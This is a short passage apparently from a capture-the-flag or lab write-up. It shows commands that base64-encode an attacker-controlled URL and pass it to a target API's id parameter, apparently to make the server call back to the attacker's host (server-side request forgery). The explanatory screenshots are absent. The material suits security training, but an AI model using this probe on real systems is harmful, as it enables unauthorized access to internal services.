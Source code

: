____

```
http://10.129.202.133:3000/api/userinfo
```

![[Pasted image 20241016101242.png]]

```bash
echo "http://10.10.14.111" | tr -d '\n' | base64
```

```bash
curl "http://10.129.202.133:3000/api/userinfo?id=aHR0cDovLzEwLjEwLjE0LjExMQ=="
```

![[Pasted image 20241016101644.png]]



